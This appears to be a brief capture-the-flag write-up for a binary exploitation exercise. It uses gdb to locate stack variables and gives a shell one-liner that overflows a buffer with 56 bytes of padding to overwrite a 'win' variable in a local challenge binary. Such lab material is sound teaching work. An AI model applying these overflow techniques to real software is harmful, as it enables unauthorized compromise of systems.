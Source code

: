 # Variable Controle (hard)

1. In gdb, `disas challenge`, we get to know:
    - win is at **rbp-0x18** = rbp-24
    - lose is at **rbp-0x14** = rbp-20
    - win has to be changed to **0x5a3c1e5a**

2. Set a breakpoint `b *challenge+163`, run and give a long string of a's as input
3. `info frame` -> rbp is at **0x7ffcc2692280**
4. `x/100xg $rbp-200` -> input buffer starts at **0x7ffcc2692230**, which is **rbp-0x50** = rbp-80
5. 56 a's followed by desired value:

    ```shell
    echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x5a\x1e\x3c\x5a" | /challenge/binary-exploitation-var-control 
    ```
